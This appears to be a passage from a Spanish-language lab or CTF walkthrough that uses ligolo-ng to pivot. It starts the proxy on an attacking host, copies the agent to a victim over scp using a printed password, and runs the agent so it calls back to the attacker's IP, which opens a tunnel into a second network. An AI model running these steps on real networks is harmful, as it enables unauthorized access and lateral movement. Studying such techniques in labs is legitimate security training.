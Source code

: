 Ahora la victama tendra en su directorio personal el siguiente, archivo comprimido
```bash
ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
```

procedemos a descomprimirlo y si no tiene persimos de ejecucion, Se los aplicamos
```bash
-rwxr-xr-x 1 Sophia Sophia 6475928 may 24 21:06 agent
```

Ahora desde nuestra maquina atacante ejecutamos el **proxy**
```bash
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? Yes
? Allow CORS Access from https://webui.ligolo.ng? Yes
WARN[0011] WebUI enabled, default username and login are ligolo:password - make sure to update ligolo-ng.yaml to change credentials! 
WARN[0011] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0011] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0011] Listening on 0.0.0.0:11601                   
INFO[0011] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
WARN[0011] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed. 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.8.2

ligolo-ng »  
```

Ahora desde nuestra maquina atacante transferimos el **Agente** a la maquina victima en la ruta: **/tmp**:
```bash
scp agent Sophia@192.168.100.24:/tmp/
Sophia@192.168.100.24's password: dolphins
proxy 
```

Ahora Ejecutamos el agente en la maquina victima
```bash
/tmp/agent -connect 192.168.100.26:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="192.168.100.26:11601"
```

Ahora necestiamos crear el tunel para poder llegar a la interfaz del segundo objetivo, 
Creamos una nueva interfaz, Para poder llegar a la red del objetivo
```bash
sudo ip tuntap add user Tu_Nombre_Usuario mode tun ligolo
```
